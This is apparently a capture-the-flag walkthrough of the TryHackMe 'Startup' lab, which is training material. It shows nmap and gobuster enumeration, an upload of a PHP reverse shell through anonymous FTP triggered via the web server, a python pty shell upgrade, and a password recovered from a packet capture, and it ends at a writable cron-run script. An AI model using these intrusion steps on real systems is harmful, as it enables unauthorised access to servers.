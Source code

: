 ## THM - Startup
### https://tryhackme.com/room/startup

### Introduction
We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

The goal is to find the secret spicy soup recipe and to get the contents of user.txt and root.txt

### First steps
The first step was to check the website itself to see if we could glean anything there. On initial inspection it seems to just be a plain html page with no js of any kind

Next we run nmap to check what ports are open. We get this result
```
root@kali:~# sudo nmap -sV -sC -T4 10.10.0.140
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-27 04:46 EST
Nmap scan report for 10.10.0.140
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.4.51.140
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
From this we see that ports 21,22 and 80 are open.
The website is running on a Apache Server but
most importantly we can login to the ftp server anonymously.

We used gobuster to find what ever directories might be there. 
```
root@kali:~/Spice# gobuster dir -w ../SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -u 10.10.0.140
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.0.140
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                ../SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 310] [--> http://10.10.0.140/files/]
/server-status        (Status: 403) [Size: 276]
```

### Reverse Shell
The next step is to login via ftp and upload this reverse shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. The ftp folder seems like a good place to put it.

We listen on our attacking system using nc and then to run the php script we can just go to http://WEBSITE_URL/files/ftp/php-reverse-shell.php


### Gaining access

Once we are in the first thing I do is stabilise the shell with this
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
With this user account we can immediately get the answer to first question by outputting the contents of recipe.txt

We also see an an incidents folder which is unusual. Inside we find a suspicious.pcapng. We can copy that to the ftp folder to make it easier for us to download and inspect it.

Inspecting it we find on stream 7 sudo -l attempts with this password
```
c4ntg3t3n0ughsp1c3
```
We try this with the lennie account and it works. We can immediately read the user.txt file and we can see inside the /home/lennie directory there is a Documents folder and a scripts folder


If we inspect the scripts we see a planner.sh and a startup_list.txt
The planner.sh appears to add whatever the list variable is to the txt file. and then runs /etc/print.sh

It looks like we have write access to /etc/print.sh so lets see what we can do with this.